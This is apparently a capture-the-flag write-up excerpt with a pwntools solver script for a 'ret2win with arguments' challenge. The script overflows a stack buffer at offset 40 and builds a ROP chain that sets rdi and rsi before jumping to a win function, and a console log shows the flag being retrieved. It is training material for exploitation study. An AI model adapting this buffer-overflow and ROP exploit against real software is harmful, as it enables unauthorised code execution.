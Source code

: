 ```python

def pwn():
  # Find the overflow offset
  offset = 40
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  payload  = b"A"*offset
  payload += p64(rop.find_gadget(["pop rdi"])[0])
  payload += p64(0xdeadbeef)
  payload += p64(rop.find_gadget(["pop rsi"])[0])
  payload += p64(0xc0deb4be)
  payload += p64(0x1337b4be)
  payload += p64(e.sym.win)
  r.sendlineafter(">",  payload)

  # Read flag - unstable connection
  try:
    flag = r.recvline_contains("FLAG").decode()
    print(colored("\n[+] Flag: {}\n".format(flag), "green"))
  except:
    print(colored("\n[-] Failed to connect or get flag.txt!\n", "red"))

if __name__ == "__main__":
  pwn()

```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge2/challenge/challenge2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './challenge2'

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 40

[+] Flag: FLAG{ret2win_but_w1th_4rg5_1s_345y_t00}
```
